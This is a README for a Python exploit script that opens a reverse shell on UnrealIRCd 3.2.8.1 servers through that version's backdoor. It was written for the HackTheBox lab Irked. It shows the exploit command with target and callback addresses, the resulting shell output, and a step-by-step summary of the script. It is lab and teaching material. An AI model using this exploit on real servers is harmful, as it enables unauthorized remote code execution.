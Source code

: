 ## Description

Exploit an [UnrealIRCd server](https://www.unrealircd.org/). Version 3.2.8.1 contains a backdoor which can provide RCE. There's already a [Metasploit exploit module](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor) for the vulnerability, but it's a customized backdoor script.

Developed this script for [Irked from HackTheBox](https://www.hackthebox.eu/home/machines/profile/163), it should be generic to any UnrealIRCd deployment on Linux, provided that a mkfifo reverse shell works on the target.

## Usage

### exploit.py

Call the python script with four arguments to identify the target ip and port, and the callback ip and port you want to use. Then, wait and get a shell:

```
root@kali# ./unreal_3.2.8.1_exploit.py 10.10.10.117 8067 10.10.14.14 4444
[*] Connecting to 10.10.10.117:6697
[*] Sending payload
[+] Payload sent. Closing socket.
[*] Opening listener. Callback should come within a minute
bash: cannot set terminal process group (634): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

![image](https://github.com/h4md153v63n/Python_Scripts/assets/5091265/e9aca050-8c04-4fc1-afff-dd6daaaf6ca5)


### exploit2.py

![image](https://github.com/h4md153v63n/Python_Scripts/assets/5091265/87096377-57e4-49e0-81fd-35715d6e623e)

![image](https://github.com/h4md153v63n/Python_Scripts/assets/5091265/82bf9133-a611-4540-8ae8-0c309ed8ba92)


### Here’s what it does:
+ Checks for right number of args and set variables, or prints usage. [Lines 7-11]
+ Connects to the host, gets first message from host. [13-20]
+ Sends payload and closes socket. [22-25]
+ Uses subprocess to run a nc listener, waits for callback, and then lets me interact with it until ctrl-c to exit. [27-33]


## References:
- https://0xdf.gitlab.io/2019/04/27/htb-irked.html#script-it
- https://gitlab.com/0xdf/ctfscripts/-/tree/master/unreal_irc_3.2.8.1_shell.py
